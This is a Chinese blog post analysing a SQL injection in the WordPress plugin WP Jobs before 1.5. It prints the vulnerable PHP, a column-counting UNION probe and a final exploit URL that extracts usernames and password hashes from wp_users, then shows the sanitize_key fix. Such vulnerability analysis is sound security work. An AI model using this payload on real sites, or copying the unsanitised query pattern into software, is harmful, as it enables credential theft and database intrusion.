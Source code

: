 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnpanda.net\](https://www.cnpanda.net/sec/21.html)

WordPress Plugin WP Jobs < 1.5 - SQL Injection

问题出现在 wp-jobswpjobs\_applications,php，第 10 行到第 62 行：

```
<?php
$job\_id = $\_REQUEST\['jobid'\]; //获取jobid
$jb\_args = array(
    'posts\_per\_page' => -1,
    'orderby' => 'post\_date',
    'order' => 'DESC',
    'post\_type' => 'job',
    'post\_status' => 'publish',
    'suppress\_filters' => true);

$jobs = get\_posts($jb\_args);
?>
<form autocomplete="off" >
    <?php \_e('Filter by Job', 'wp-jobs'); ?> <select >
        <option value="edit.php?post\_type=job&page=WPJobsJobApps">All Applications</option>
        <?php foreach ($jobs as $job\_info) : setup\_postdata($jobs); ?>
            <option <?php
            if ($job\_info->ID == $job\_id) {
                echo 'selected="selected"';
            }
            ?> value="edit.php?post\_type=job&page=WPJobsJobApps&jobid=<?php echo $job\_info->ID; ?>"><?php echo $job\_info->post\_title; ?></option>
         <?php
            endforeach;
            wp\_reset\_postdata();
            ?>
    </select>
</form>
<style>
    .dctrprt tr th, .dctrprt tr td {
        font-family:Arial, Helvetica, sans-serif;
        font-size:13px;
    }
</style>
<table class="widefat dctrprt">
    <tr>
        <th><strong><?php \_e('S.No', 'wp-jobs'); ?></strong></th>
        <th><strong><?php \_e('Job Title', 'wp-jobs'); ?></strong></th>
        <th><strong><?php \_e('Full Name', 'wp-jobs'); ?></strong></th>
        <th><strong><?php \_e('Email', 'wp-jobs'); ?></strong></th>
        <th><strong><?php \_e('Phone Number', 'wp-jobs'); ?></strong></th>
        <th><strong><?php \_e('Download Resume', 'wp-jobs'); ?></strong></th>
    </tr>
    <?php
    $tbl = $wpdb->prefix;
    $qry = "Select \* from " . $tbl . "app\_user\_info ";
    if ($job\_id <> "") {
        $qry .= " where app\_job\_id = " . $job\_id; //直接带入SQL语句查询
    }
    $qry .= " Order by \`app\_id\` Desc ";
    $users = $wpdb->get\_results($qry);
    $i = 1;
    foreach ($users as $user) {
?>

```

  
漏洞的原因很简单，系统在 request jobid 后，没有进行任何转义或者过滤处理，直接简单的判断了下 job\_id 的值是否为空，然后就拼接到了 SQL 语句中，从而导致了 SQL 注入漏洞。  
测试如下：

> [http://localhost](http://localhost/):80/cve/wp-admin/edit.php?post\_type=job&page=WPJobsJobApps&jobid=11  
> UNION ALL SELECT NULL,NULL,NULL,NULL,NULL-- admin

![](https://www.cnpanda.net/usr/uploads/2017/12/483721674.png)

当字段数为 6 的时候，返回特殊页面。

![](https://www.cnpanda.net/usr/uploads/2017/12/2739148893.png)

说明字段数为 6。  
可以使用 mysql 监控工具可以看到执行的 SQL 语句：

![](https://www.cnpanda.net/usr/uploads/2017/12/111042960.png)

可以看到，我们所构造的语句被拼接到 SQL 语句中执行。  
尝试查看数据库版本：

![](https://www.cnpanda.net/usr/uploads/2017/12/523415778.png)

成功查询。  
最终可构造的 EXP 的如下：

> [http://localhost](http://localhost/):80/cve/wp-admin/edit.php?post\_type=job&page=WPJobsJobApps&jobid=11  
> UNION ALL SELECT NULL,CONCAT(0x3930736563,IFNULL(CAST(user\_nicename AS  
> CHAR),0x20),0x7430306c73,IFNULL(CAST(user\_pass AS  
> CHAR),0x20),0x70616e6461),NULL,NULL,NULL,NULL FROM  
> wordpress.wp\_users-- admin

![](https://www.cnpanda.net/usr/uploads/2017/12/513679875.png)

三、 修复方案  
看下官方的修复方案：

![](https://www.cnpanda.net/usr/uploads/2017/12/2945577951.png)

在 1.4 的版本中：

```
<?php
$job\_id = $\_REQUEST\['jobid'\];
$jb\_args = array(
    'posts\_per\_page' => -1,
    'orderby' => 'post\_date',
    'order' => 'DESC',
    'post\_type' => 'job',
    'post\_status' => 'publish',
    'suppress\_filters' => true);

$jobs = get\_posts($jb\_args);
?>


```

1.5 版本中：

```
<?php
$job\_id = isset($\_REQUEST\['jobid'\]) ? sanitize\_key($\_REQUEST\['jobid'\]) : null;
$jb\_args = array(
    'posts\_per\_page' => -1,
    'orderby' => 'post\_date',
    'order' => 'DESC',
    'post\_type' => 'job',
    'post\_status' => 'publish',
    'suppress\_filters' => true);

$jobs = get\_posts($jb\_args);
?>

```

可以看到官方对于 jobid 加了一个 wordpress 自带函数 sanitize\_key 来过滤特殊字符，使 jobid 的参数只允许包含数字和字母，破折号和下划线，从而修复了 SQL 注入漏洞。

由于刚开学事情比较多，而且在忙学校的一个作品竞赛，所以没太多时间研究其他比较有意思的 CVE 漏洞，只是随便在 exploit-db 找了一个有 CVE 编号的进行分析。结果分析下来发现，这个 CVE 其实没什么亮点内容，也就是一个常见的注入漏洞，而且这个漏洞比较鸡肋，因为只有管理员权限才可查看 WPJobsJobApps 界面，才能进一步进行注入。不得不感叹一声，只要肯研究 CVE 真不是难事

使用微信扫描二维码完成支付

![](https://www.cnpanda.net/usr/themes/sec/img/alipay-2.jpg)